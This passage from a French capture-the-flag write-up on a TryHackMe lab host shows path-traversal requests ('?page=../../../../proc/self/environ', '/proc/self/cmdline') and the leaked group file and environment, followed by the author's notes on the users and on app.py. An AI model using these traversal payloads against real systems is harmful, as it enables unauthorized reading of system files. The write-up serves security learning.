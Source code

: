 ```
Response headers: {'Server': 'Werkzeug/3.0.2 Python/3.8.10', 'Date': 'Mon, 22 Jul 2024 18:23:48 GMT, Mon, 22 Jul 2024 18:23:48 GMT', 'Content-Disposition': 'inline; filename=group', 'Content-Type': 'application/octet-stream', 'Content-Length': '1062', 'Last-Modified': 'Wed, 17 Apr 2024 19:09:21 GMT', 'Cache-Control': 'no-cache', 'ETag': '"1713380961.6022193-1062-1578438323"', 'Connection': 'close'}
Response content: b'root:x:0:\ndaemon:x:1:\nbin:x:2:\nsys:x:3:\nadm:x:4:syslog\ntty:x:5:syslog\ndisk:x:6:\nlp:x:7:\nmail:x:8:\nnews:x:9:\nuucp:x:10:\nman:x:12:\nproxy:x:13:\nkmem:x:15:\ndialout:x:20:\nfax:x:21:\nvoice:x:22:\ncdrom:x:24:\nfloppy:x:25:\ntape:x:26:\nsudo:x:27:carlos\naudio:x:29:pulse\ndip:x:30:\nwww-data:x:33:\nbackup:x:34:\noperator:x:37:\nlist:x:38:\nirc:x:39:\nsrc:x:40:\ngnats:x:41:\nshadow:x:42:\nutmp:x:43:\nvideo:x:44:\nsasl:x:45:\nplugdev:x:46:\nstaff:x:50:\ngames:x:60:\nusers:x:100:\nnogroup:x:65534:\nsystemd-journal:x:101:\nsystemd-network:x:102:\nsystemd-resolve:x:103:\nsystemd-timesync:x:104:\ncrontab:x:105:\nmessagebus:x:106:\ninput:x:107:\nkvm:x:108:\nrender:x:109:\nsyslog:x:110:\ntss:x:111:\nbluetooth:x:112:\nssl-cert:x:113:\nuuidd:x:114:\ntcpdump:x:115:\navahi-autoipd:x:116:\nrtkit:x:117:\nssh:x:118:\nnetdev:x:119:\nlpadmin:x:120:\navahi:x:121:\nscanner:x:122:saned\nsaned:x:123:\nnm-openvpn:x:124:\nwhoopsie:x:125:\ncolord:x:126:\nfwupd-refresh:x:127:\ngeoclue:x:128:\npulse:x:129:\npulse-access:x:130:\ngdm:x:131:\nsssd:x:132:\nlxd:x:133:\ncarlos:x:1000:\nsambashare:x:134:\nsystemd-coredump:x:999:\nhudson:x:1001:\n'
```
```
[+] Response from: http://airplane.thm:8000/?page=../../../../proc/self/environ
Response status code: 200
Response headers: {'Server': 'Werkzeug/3.0.2 Python/3.8.10', 'Date': 'Mon, 22 Jul 2024 18:25:45 GMT, Mon, 22 Jul 2024 18:25:45 GMT', 'Content-Disposition': 'inline; filename=environ', 'Content-Type': 'application/octet-stream', 'Content-Length': '437', 'Last-Modified': 'Mon, 22 Jul 2024 18:25:45 GMT', 'Cache-Control': 'no-cache', 'ETag': '"1721672745.416054-0-3779662296"', 'Connection': 'close'}
Response content: b'LANG=en_US.UTF-8\x00LC_ADDRESS=tr_TR.UTF-8\x00LC_IDENTIFICATION=tr_TR.UTF-8\x00LC_MEASUREMENT=tr_TR.UTF-8\x00LC_MONETARY=tr_TR.UTF-8\x00LC_NAME=tr_TR.UTF-8\x00LC_NUMERIC=tr_TR.UTF-8\x00LC_PAPER=tr_TR.UTF-8\x00LC_TELEPHONE=tr_TR.UTF-8\x00LC_TIME=tr_TR.UTF-8\x00PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin\x00HOME=/home/hudson\x00LOGNAME=hudson\x00USER=hudson\x00SHELL=/bin/bash\x00INVOCATION_ID=3c94ffffd0894ec48af956e6dcbec5d9\x00JOURNAL_STREAM=9:19914\x00'
```
```
[+] Response from: http://airplane.thm:8000/?page=../../../../proc/self/cmdline
Response status code: 200
Response headers: {'Server': 'Werkzeug/3.0.2 Python/3.8.10', 'Date': 'Mon, 22 Jul 2024 18:27:55 GMT, Mon, 22 Jul 2024 18:27:55 GMT', 'Content-Disposition': 'inline; filename=cmdline', 'Content-Type': 'application/octet-stream', 'Content-Length': '24', 'Last-Modified': 'Mon, 22 Jul 2024 18:20:02 GMT', 'Cache-Control': 'no-cache', 'ETag': '"1721672402.7080424-0-3770749363"', 'Connection': 'close'}
Response content: b'/usr/bin/python3\x00app.py\x00'
```
Le script mâche pas mal le travail, on a pas mal d'informations, et ca peux toujours être utile !
On sait donc :

1) Il y a 2 users, **hudson** et **carlos**
2) Un groupe user 1001 pour **hudson**
3) L'utilisateur principal est **hudson**
4) Un script python **app.py** est executer sur le système.

## Le port 6048
Ce port m'intrigue.
